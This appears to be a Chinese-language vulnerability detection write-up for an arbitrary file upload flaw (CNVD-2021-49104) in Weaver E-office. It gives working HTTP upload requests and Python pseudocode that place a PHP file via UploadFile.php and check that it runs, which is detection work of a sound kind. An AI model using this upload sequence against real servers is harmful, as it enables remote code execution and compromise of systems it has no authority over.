 # Pan 微 E-office 任意文件上传漏洞（CNVD-2021-49104）

## 漏洞简介
Pan 微 E-office 存在任意文件上传漏洞，远程攻击者可通过特定接口上传恶意 PHP 文件，进而在服务器上执行任意代码，危害极大。

## 影响范围
- 受影响产品：Pan 微 E-office
- 影响版本：未加固的相关版本

## 漏洞原理
系统未对上传文件类型和内容做有效校验，攻击者可通过 `UploadFile.php` 接口上传 PHP 脚本，随后通过 Web 路径访问并执行该脚本，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=` 上传恶意 PHP 文件。
2. 上传成功后，访问 `/images/logo/logo-eoffice.php` 路径，触发恶意代码执行。

## 探测原理与流程
### 请求包示例
1. 上传 PHP 文件：
```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php echo md5("teststring");?>
--e64bdf16c554bbc109cecef6451c26a4--
```
2. 访问上传的 PHP 文件：
```http
GET /images/logo/logo-eoffice.php HTTP/1.1
Host: target.com
```

### 响应与判定逻辑
- 响应体包含上传 PHP 文件输出的 md5 值（如 `94d01a2324ce38a2e29a629c54190f67`）。
- 响应状态码为 200。

### 伪代码
```python
# 步骤1：上传 PHP 文件
files = {'Filedata': ('test.php', '<?php echo md5("teststring");?>', 'image/jpeg')}
requests.post('http://target.com/general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=', files=files)
# 步骤2：访问上传的 PHP 文件
resp = requests.get('http://target.com/images/logo/logo-eoffice.php')
if resp.status_code == 200 and '94d01a2324ce38a2e29a629c54190f67' in resp.text:
    print('存在任意文件上传漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[上传恶意 PHP 文件]
    B --> C[访问上传的 PHP 文件]
    C --> D[检查响应内容]
    D --> E{是否包含 md5 校验值?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在任意文件上传漏洞]
```

## 参考链接
- [漏洞分析与利用](https://chowdera.com/2021/12/202112200602130067.html)
- [Pan 微 E-office 官网](http://v10.e-office.cn) 